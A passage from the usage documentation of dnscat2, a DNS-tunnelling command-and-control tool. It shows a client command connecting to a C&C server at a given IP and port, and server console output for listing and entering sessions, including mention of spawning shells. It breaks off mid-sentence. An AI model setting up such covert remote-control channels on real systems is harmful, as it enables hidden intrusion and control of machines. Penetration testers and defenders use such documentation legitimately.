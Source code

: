 In that example, it will create a C&C session with the dnscat2 server
running on skullseclabs.org. If an authoritative domain isn't an option,
it can be given a specific ip address to connect to instead:

    ./dnscat2 --dns host=206.220.196.59,port=5353

Assuming there's a dnscat2 server running on that host/port, it'll
create a session there.

### Sessions

I used the term "session" earlier - let's talk about sessions! A session
is a single virtual "connection" between a client and a server,
identified by a 16-bit session_id value. A client can maintain multiple
sessions with a single server (this happens when you spawn a shell from
within a command session, for example). A server can maintain multiple
sessions with multiple clients. Think of it as kind of a hub where all
the connections come back to!

There are several different types of sessions, but the default one -
which I call a "command session" - is usually what you want (since the
other ones can be created via that command session). If you want to play
with other session types, you can pass --console or --exec to the dnscat
client (the server will recognize the type automatically). Technically,
--ping is also a session type, but it's handled specially.

When you run dnscat2, you'll see a simple prompt:

    dnscat2>

You can list the sessions using the `sessions` command (initially,
there's only the one):

    dnscat2> sessions
    command window <-- You are here!
    dnscat2>

When a new session is created, you'll be informed:

    dnscat2> sessions
    command window <-- You are here!
    dnscat2>
    New session established: 19334
    
    dnscat2> sessions
    command window <-- You are here!
     session 19334 :: command (default)

You can interact with these sessions using the `session -i` command:

    dnscat2> session -i 19334
    
    Welcome to a command session! Use 'help' for a list of commands or ^z
    for the main menu
    dnscat [command: 19334]>

These sessions can spawn further sessions:
